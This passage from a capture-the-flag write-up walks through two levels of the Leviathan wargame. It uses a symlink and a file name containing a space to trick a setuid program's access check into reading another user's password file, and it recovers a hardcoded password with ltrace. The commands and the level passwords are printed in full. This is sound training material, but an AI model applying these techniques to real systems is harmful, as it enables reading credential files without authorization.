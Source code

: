 We can see that it checks access to the file, then runs `cat` on the file if it's
ok for us to access it. Symlinks won't work here, as the `access` call dereferences
the symlink. So what can we do? We exploit spaces. By creating a file that is a symlink to
the `leviathan3` password file, along with another file, that has the same name followed
by a space and another name, we can trick `access` into allowing it to carry on, and
then `cat` to print the files. let me show you

{{< highlight console >}}
leviathan2@melinda:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/levpass3
leviathan2@melinda:~$ touch /tmp/levpass3\ other
leviathan2@melinda:~$ ./printfile /tmp/levpass3\ other
Ahdiemoo1j
/bin/cat: other: No such file or directory
{{< / highlight >}}

So access checks `/tmp/levpass3\ other` and deems it ok. Then that string gets
passed to `cat` which interprets it as two files, hence the `/bin/cat: other: No such file or directory`

# Level 3 -> 4 #

Another program that prompts for a pass. Usual approaches of `strings` and checking
the *disass* doesn't reveal much, but the function `do_stuff` does call `strcmp`
and we know now that we can use `ltrace` to help us out

{{< highlight console >}}
leviathan3@melinda:~$ ltrace ./level3 
__libc_start_main(0x80485fe, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                 = -1
printf("Enter the password> ")                             = 20
fgets(Enter the password> d
"d\n", 256, 0xf7fcac20)                              = 0xffffd58c
strcmp("d\n", "snlprintf\n")                               = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                 = 19
+++ exited (status 0) +++
{{< / highlight >}}

A little bit of obfuscation here, but to our keen eyes, we see where the test
is happening `strcmp("d\n", "snlprintf\n")`. Our password is `snlprintf`.

{{< highlight console >}}
leviathan3@melinda:~$ ./level3 
Enter the password> snlprintf  
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
{{< / highlight >}}

# Level 4 -> 5 #
